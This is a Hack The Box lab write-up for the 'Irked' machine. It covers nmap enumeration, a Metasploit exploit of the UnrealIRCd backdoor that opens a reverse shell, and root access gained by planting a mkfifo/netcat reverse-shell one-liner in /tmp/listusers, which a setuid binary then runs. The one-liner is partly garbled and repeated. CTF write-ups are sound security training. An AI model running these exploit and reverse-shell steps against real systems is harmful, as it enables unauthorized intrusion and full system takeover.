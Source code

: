 ```yaml
---
layout: single
classes: wide
title:  "Walkthrough - Irked"
date: 2019-04-27
categories:
    - "hackthebox"
    - walkthrough
tags:
    - machines
    - easy
    - linux
---
```


This was a decent box. An IRC exploit gets you a shell with the IRC user but not the local user. There are two methods to get a privilege escalation. One is a bit CTFy which I have not included in this walkthrough and the other is using a setuid binary that gets us a root shell. Overall this was a good box.

![banner]({{ site.url }}{{ site.baseurl }}/assets/images/HTB_images/machines/irked/banner.JPG)

Before following this walkthrough, I highly recommend trying to get the flag yourself! Just like you will hear from everyone else, try harder! (if you cannot find it)

## Enumeration

First up, we'll scan the box using basic nmap scripts and then go from there (Enumerate!).

```bash
kali@noone:~/Irked$ nmap -v -p- -sC -sV -oA nmap 10.10.10.117
# Nmap 7.70 scan initiated Sun Feb 10 20:26:11 2019 as: nmap -v -p- -sC -sV -oA nmap 10.10.10.117
Nmap scan report for 10.10.10.117
Host is up (0.25s latency).
Not shown: 65528 closed ports
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
| ssh-hostkey:
|   1024 6a:5d:f5:bd:cf:83:78:b6:75:31:9b:dc:79:c5:fd:ad (DSA)
|   2048 75:2e:66:bf:b9:3c:cc:f7:7e:84:8a:8b:f0:81:02:33 (RSA)
|   256 c8:a3:a2:5e:34:9a:c4:9b:90:53:f7:50:bf:ea:25:3b (ECDSA)
|_  256 8d:1b:43:c7:d0:1a:4c:05:cf:82:ed:c1:01:63:a2:0c (ED25519)
80/tcp    open  http    Apache httpd 2.4.10 ((Debian))
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Site doesnt have a title (text/html).
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo:
|   program version   port/proto  service
|   100000  2,3,4        111/tcp  rpcbind
|   100000  2,3,4        111/udp  rpcbind
|   100024  1          53857/udp  status
|_  100024  1          59504/tcp  status
6697/tcp  open  irc     UnrealIRCd
8067/tcp  open  irc     UnrealIRCd
59504/tcp open  status  1 (RPC #100024)
65534/tcp open  irc     UnrealIRCd
Service Info: Host: irked.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Feb 10 20:44:03 2019 -- 1 IP address (1 host up) scanned in 1072.35 seconds
```

We have a few ports open. A few weird ports with IRC service running on them. But lets start with the most common way, port 80.

![port80]({{ site.url }}{{ site.baseurl }}/assets/images/HTB_images/machines/irked/port-80.JPG)

Just a smiley. I am going to pivot and do something else. A `searchsploit` on `UnrealIRCd` got me this.

```bash
kali@noone:~/Irked$ searchsploit UnrealIRCd
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ----------------------------------------
 Exploit Title                                                                                                                                                                               |  Path
                                                                                                                                                                                             | (/usr/share/exploitdb/)
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ----------------------------------------
UnrealIRCd 3.2.8.1 - Backdoor Command Execution (Metasploit)                                                                                                                                 | exploits/linux/remote/16922.rb
UnrealIRCd 3.2.8.1 - Local Configuration Stack Overflow                                                                                                                                      | exploits/windows/dos/18011.txt
UnrealIRCd 3.2.8.1 - Remote Downloader/Execute                                                                                                                                               | exploits/linux/remote/13853.pl
UnrealIRCd 3.x - Remote Denial of Service                                                                                                                                                    | exploits/windows/dos/27407.pl
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ----------------------------------------
Shellcodes: No Result
```

## Exploit

There's a metasploit module. Let's try it out.

```bash
root@noone:/home/pswapnil/Retired/Irked# msfconsole
msf5 > search unreal                                                                                                                                                                                                         

Matching Modules                                                                                                                                                                                                             
================                                                                                                                                                                                                            

   #  Name                                        Disclosure Date  Rank       Check  Description
   -  ----                                        ---------------  ----       -----  -----------
   1  exploit/linux/games/ut2004_secure           2004-06-18       good       Yes    Unreal Tournament 2004 "secure" Overflow (Linux)
   2  exploit/unix/irc/unreal_ircd_3281_backdoor  2010-06-12       excellent  No     UnrealIRCD 3.2.8.1 Backdoor Command Execution                                                                                                    
   3  exploit/windows/games/ut2004_secure         2004-06-18       good       Yes    Unreal Tournament 2004 "secure" Overflow (Win32)                                                               


msf5 > use exploit/unix/irc/unreal_ircd_3281_backdoor                                                                                                                                                                        
msf5 exploit(unix/irc/unreal_ircd_3281_backdoor) > show options                                                                                                                                                              

Module options (exploit/unix/irc/unreal_ircd_3281_backdoor):                                                                                                                                                                

   Name    Current Setting  Required  Description                                             
   ----    ---------------  --------  -----------                
   RHOSTS                   yes       The target address range or CIDR identifier
   RPORT   6667             yes       The target port (TCP)


Exploit target:                                          

   Id  Name                                                                     
   --  ----                                                                     
   0   Automatic Target                                                         


msf5 exploit(unix/irc/unreal_ircd_3281_backdoor) > set RHOSTS 10.10.10.117      
RHOSTS => 10.10.10.117
msf5 exploit(unix/irc/unreal_ircd_3281_backdoor) > set RPORT 6697
RPORT => 6697                                                                    
msf5 exploit(unix/irc/unreal_ircd_3281_backdoor) > exploit

[*] Started reverse TCP double handler on 10.10.16.102:4444
[*] 10.10.10.117:6697 - Connected to 10.10.10.117:6697...
    :irked.htb NOTICE AUTH :*** Looking up your hostname...                    
[*] 10.10.10.117:6697 - Sending backdoor command...                             
[*] Accepted the first client connection...                                     
[*] Accepted the second client connection...                                    
[*] Command: echo NYsVwSUaezV0FKxG;                                             
[*] Writing to socket A                                                         
[*] Writing to socket B                                                         
[*] Reading from sockets...                                                     
[*] Reading from socket A                                                       
[*] A: "NYsVwSUaezV0FKxG\r\n"                                                   
[*] Matching...                                                                 
[*] B is input...                                                                                
[*] Command shell session 1 opened (10.10.16.102:4444 -> 10.10.10.117:32986) at 2019-04-29 12:07:43 -0400

id
uid=1001(ircd) gid=1001(ircd) groups=1001(ircd)
pwd
/home/ircd/Unreal3.2
```

## Setuid binary

I will upgrade to a full TTY. To know how I did that, follow [this](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/).

```bash
ircd@irked:~$ cd /home
ircd@irked:/home$ ls -la
total 16
drwxr-xr-x  4 root     root     4096 May 14  2018 .
drwxr-xr-x 21 root     root     4096 May 15  2018 ..
drwxr-xr-x 18 djmardov djmardov 4096 Apr 30 08:28 djmardov
drwxr-xr-x  3 ircd     root     4096 May 15  2018 ircd
ircd@irked:/home$ find / -perm -u=s -type f 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/spice-gtk/spice-client-glib-usb-acl-helper
/usr/sbin/exim4
/usr/sbin/pppd
/usr/bin/chsh
/usr/bin/procmail
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/at
/usr/bin/pkexec
/usr/bin/X
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/viewuser
/sbin/mount.nfs
/bin/su
/bin/mount
/bin/fusermount
/bin/ntfs-3g
/bin/umount
ircd@irked:/home$ viewuser
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           2019-04-03 06:34 (:0)
djmardov pts/2        2019-04-04 09:01 (10.10.14.14)
sh: 1: /tmp/listusers: not found
```
The `viewuser` binary is searching for a file `/tmp/listusers`. Let's see if we can write to this file. I will try to upload a shell command in the file and start a listener on my local machine.

```bash
ircd@irked:/home$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.102 6666 >/tmp/f" > /tmp/listusers <;cat /tmp/f|/bin/sh -i 2>&1 | nc <my-ip> 6666 > /tmp/f" > /tmp/listusers
```

Now let's try to execute the binary again and see if we pop a shell.

```bash
ircd@irked:/home$ viewuser
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           2019-05-11 07:04 (:0)
```

What do you know! We popped a shell on the listener we started and it's a root shell!

```bash
kali@noone:~/Irked$ nc -lnvp 6666
listening on [any] 6666 ...
connect to [10.10.16.102] from (UNKNOWN) [10.10.10.117] 54261
# id     
uid=0(root) gid=1001(ircd) groups=1001(ircd)
# cat /root/root.txt
8******************************3
# locate user.txt
/home/djmardov/Documents/user.txt
/usr/share/doc/fontconfig/fontconfig-user.txt.gz
# cat /home/djmardov/Documents/user.txt
4******************************e
```

This is definetely the first time I am showing the root.txt file before the user.txt file. I guess that's what happens when you try to do your recon thoroughly before trying to score points on HTB.
Great box nonetheless!
